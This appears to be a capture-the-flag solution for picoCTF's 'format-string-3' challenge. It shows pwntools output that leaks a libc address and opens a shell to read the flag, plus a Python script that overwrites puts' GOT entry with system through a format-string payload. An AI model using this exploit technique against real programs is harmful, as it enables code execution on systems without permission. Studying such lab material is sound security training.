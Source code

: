 ```css
got_puts: 0x404018
[!] Could not populate PLT: No module named 'pkg_resources'
[*] '/home/kali/Downloads/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
libc_system: 0x4f760
libc_setvbuf: 0x7a3f0
[+] Opening connection to rhea.picoctf.net on port 50071: Done
[*] matched_string: libc: 0x7aae444f53f0
[*] loaded_libc_system: 0x7aae444ca760
[*] Switching to interactive mode
                                                                                               c                         \x8b                                            \xa0      \x01                                                                                                                                                     \x00       \x00aaaabaa\x18@@$  
$ ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
picoCTF{G07_G07?_92325514}$  
```


or
```python
from pwn import *
binsh = 0x402008
puts_got = 0x404018
context.arch = 'amd64'

setvbuf_offset = 500720
system_offset = 325472

chall = remote('rhea.picoctf.net', *)
log.info(chall.recvuntil(b'libc: '))
leak = chall.recvline()
payload = fmtstr_payload(38, {puts_got: int(leak.strip(),16)-setvbuf_offset + system_offset })

chall.sendline(payload)
chall.interactive()
```
